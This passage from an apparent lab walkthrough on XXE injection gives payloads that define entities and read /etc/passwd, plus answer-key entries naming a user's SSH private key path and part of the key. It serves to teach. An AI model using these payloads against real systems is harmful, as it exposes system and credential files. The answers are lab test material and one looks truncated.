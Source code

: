 The file does not exist.
The application has protections in place against XXE.
The XML parser used by the application does not support external entities.
Additional Exercises
Displaying a Name Using XXE:

Payload:

xml
Copy code
<!DOCTYPE replace [
    <!ENTITY name "feast">
]>
<userInfo>
    <firstName>falcon</firstName>
    <lastName>&name;</lastName>
</userInfo>
Result:

The website successfully displays the name as "falcon feast".
Reading /etc/passwd Using XXE:

Payload:

xml
Copy code
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
Result:

The website successfully reads and displays the contents of /etc/passwd.
Additional Questions and Answers
Try to display your own name using any payload:
No answer needed
See if you can read the /etc/passwd:
No answer needed
What is the name of the user in /etc/passwd?
Answer: falcon
Where is falcon's SSH key located?
Answer: /home/falcon/.ssh/id_rsa
What are the first 18 characters for falcon's private key?
Answer: MIIEogIBAAKCAQEA7
Conclusion
Exploiting XXE vulnerabilities involves manipulating ENTITY references in XML documents. By understanding and crafting specific payloads, attackers can extract sensitive information from the server, showcasing the importance of proper XML handling and security measures.







# Task 17: Broken Access Control
Introduction to Broken Access Control
Broken access control occurs when a website's access controls are improperly implemented, allowing unauthorized users to access protected pages and functionalities. This can result in severe consequences, such as unauthorized access to sensitive information or the ability to perform actions reserved for privileged users.
